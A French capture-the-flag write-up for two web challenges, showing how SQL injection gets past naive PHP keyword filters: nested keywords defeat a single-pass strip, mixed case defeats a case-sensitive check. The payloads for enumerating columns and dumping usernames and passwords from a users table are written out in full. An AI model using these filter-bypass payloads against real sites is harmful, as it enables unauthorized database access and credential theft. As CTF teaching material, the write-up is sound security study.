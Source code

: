 # Gogol 1

Ici on a un premier coup de main fourni par l'énoncé

> Tu peux voir le code source de l'application en ajoutant le paramètre "GetItNude" dans ta requête GET.

On récupère donc le code PHP du backend qui gère les recherches.  
Et en PHP, quand on voit une requête non-préparée qui implémente des filtres fait main, en général ça pue l'injection SQL.

On remarque que le filtre consiste à remplacer les mots clés "union" et "select" par.. rien.

```php
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
} 
```

Et comme le filtre n'est appliqué qu'une fois, on peut s'amuser à écrire des choses comme ça `uunionnion` qui, une fois 
passé dans notre "filtre", deviendra un "union" parfaitement valide syntaxiquement parlant. On peut faire le test :

```php
$haystack = "uunionnion";
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $haystack = preg_replace('/' . $banned . '/i', '', $haystack);
}

echo $haystack;
```

Evidemment cela fonctionne aussi pour select (ou devrais-je dire `sselectelect`).

Reste maintenant à échapper notre LIKE dans la requête. Le plus simple est d'utiliser un `' and 0` (ou  un `' and NULL` ou un  `' and 1` ou ... bref vous avez l'idée).
On se retrouve donc avec une requête qui ressemble plus ou moins à ça :

```
' and 0 UUNIONNION SSELECTELECT 1#
```

Reste à déterminer le nombre de colonnes de façon itérative :

```
' and 0 UUNIONNION SSELECTELECT 1#
' and 0 UUNIONNION SSELECTELECT 1,2#
' and 0 UUNIONNION SSELECTELECT 1,2,3# <-- les numéros de colonnes s'affichent 
```

Maintenant qu'on a le nombre de colonne, reste plus qu'à chercher un peu dans la bdd :

```
' and 0 UUNIONNION SSELECTELECT version(),user(),database()#
```


![gogol1_1](gogol1_1.png)

On pourrait facilement retrouver le nom des tables mais le plus simple reste d'essayer avec des nom de tables / champs classiques :


```
' and 0 UUNIONNION SSELECTELECT username,password,3 from users#
```

![gogol1_2](gogol1_2.png)

Et le challenge est validé :)

`INEAT{azerty-is-a-g00d-p4ssw0rd}`

# Gogol 2

Le second challenge propose une version "patchée" du code.  
Bien évidemment, notre injection ne fonctionne plus, et nous n'avons cette fois plus accès au code source.

On peut donc supposer qu'il s'agit de la même requête SQL en PHP et qu'il faudra également trouver un moyen de contourner les filtres mis en place par le webmaster (en aveugle cette fois, donc).

On remarque que lorsqu'on essaye d'effectuer une injection basique, on obtient un message d'erreur `Hacker detected`. En réalité, une simple requête contenant les mots clés "union" ou "select" provoque l'affichage de ce message. On peut donc supposer que le code derrière ressemble maintenant à ça :

```
$filter = array('union', 'select', 'UNION', 'SELECT');

// Remove all banned characters
foreach ($filter as $banned) {
    if (strpos($banned, $_GET['q']) !== false) {
        echo "Hacker detected";
        die();
    }
} 
```
 Or il s'avère que, contrairement à `preg_replace()`, la fonction `strpos()` est case sensitive - contrairement à notre requête SQL qui se fout royalement des minuscules/majuscules. On peut donc contourner le filtre relativement simplement :

```
' and 0 UnioN SelECt 1,2,3#
```
![gogol2_1](gogol2_1.png)

Il ne reste plus qu'à modifier légèrement notre requête précédente.

```
' and 0 UnioN SelECt username,password,3 from users#
```

![gogol2_2](gogol2_2.png)

`INEAT{l0w3rC4s3_S3ns171v3}`
